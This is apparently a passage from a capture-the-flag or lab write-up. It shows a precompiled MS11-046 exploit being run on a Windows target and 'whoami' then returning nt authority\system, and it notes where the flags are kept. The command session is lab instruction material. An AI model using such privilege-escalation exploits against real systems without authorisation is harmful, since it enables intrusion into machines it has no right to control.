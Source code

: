 At this point we have the exploit on the target machine. We just need to launch it and gain **SYSTEM** privileges!

```
C:\Users\Public>.\MS11-046.exe
.\MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system

c:\Windows\System32>
```

**Note**: flags are under `C:\Users\babis\Desktop` and `C:\Users\Administrator\Desktop`.
